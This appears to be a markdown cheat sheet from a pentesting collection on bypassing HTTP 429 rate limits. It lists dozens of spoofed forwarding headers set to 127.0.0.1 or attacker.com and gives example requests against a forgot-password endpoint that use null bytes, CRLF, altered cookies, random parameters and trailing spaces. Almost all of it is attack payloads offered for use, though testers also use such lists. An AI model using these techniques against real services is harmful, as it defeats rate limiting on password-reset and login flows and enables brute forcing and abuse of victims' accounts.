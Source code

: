 # Bypass 429 (Too Many Requests)
 
1. Try add some custom header
```
X-Forwarded-For : 127.0.0.1
X-Forwarded-Host : 127.0.0.1
X-Client-IP : 127.0.0.1
X-Remote-IP : 127.0.0.1
X-Remote-Addr : 127.0.0.1
X-Host : 127.0.0.1
X-Forwarded-For: [attacker.com](http://attacker.com/)

X-Forwarded-Host: [attacker.com](http://attacker.com/)

X-Forwarded-Proto headers: [attacker.com](http://attacker.com/)

Host: [attacker.com](http://attacker.com/) (duplicate this header)

X-Host: [attacker.com](http://attacker.com/)

X-Forwarded-Server: [attacker.com](http://attacker.com/)

X-HTTP-Host-Override: [attacker.com](http://attacker.com/)

Forwarded: [attacker.com](http://attacker.com/)

Base-Url: 127.0.0.1
Client-IP: 127.0.0.1
Forwarded-For: 127.0.0.1
Forwarded-For-Ip: 127.0.0.1
Http-Url: 127.0.0.1
nullOrigin: 127.0.0.1
Origin: 127.0.0.1
Proxy-Host: 127.0.0.1
Proxy-Url: 127.0.0.1
Real-Ip: 127.0.0.1
Redirect: 127.0.0.1
Referer: 127.0.0.1
Referrer: 127.0.0.1
Refferer: 127.0.0.1
Request-Uri: 127.0.0.1
Uri: 127.0.0.1
Url: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1
X-Custom-IP-Authorization:127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Forwarded-Port: 127.0.0.1
X-Forwarded-Scheme: 127.0.0.1
X-Forwarded-Server: 127.0.0.1
X-Forwarder-For: 127.0.0.1
X-Forward-For: 127.0.0.1
X-Frame-Options: Allow
X-Host: 127.0.0.1
X-Http-Destinationurl: 127.0.0.1
X-Http-Host-Override: 127.0.0.1
X-Original-Remote-Addr: 127.0.0.1
X-Original-Url: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Proxy-Url: 127.0.0.1
X-Real-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Rewrite-Url: 127.0.0.1
```
For example:
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
X-Forwarded-For : 127.0.0.1
...

email=victim@gmail.com
```

2. Adding Null Byte ( %00 ) or CRLF ( %09, %0d, %0a ) at the end of the Email can bypass rate limit.
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
...

email=victim@gmail.com%00
```

3. Try changing user-agents, cookies and IP address
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: xxxxxxxxxx
...

email=victim@gmail.com
```
Try this to bypass
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: aaaaaaaaaaaaa
...

email=victim@gmail.com
```

4. Add a random parameter on the last endpoint
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
...

email=victim@gmail.com
```
Try this to bypass
```
POST /ForgotPass.php?random HTTP/1.1
Host: target.com
...

email=victim@gmail.com
```

5. Add space after the parameter value
```
POST /api/forgotpass HTTP/1.1
Host: target.com
...

{"email":"victim@gmail.com"}
```
Try this to bypass
```
POST /api/forgotpass HTTP/1.1
Host: target.com
...

{"email":"victim@gmail.com "}
```

## References
* [Huzaifa Tahir](https://huzaifa-tahir.medium.com/methods-to-bypass-rate-limit-5185e6c67ecd)
* [Gupta Bless](https://gupta-bless.medium.com/rate-limiting-and-its-bypassing-5146743b16be)
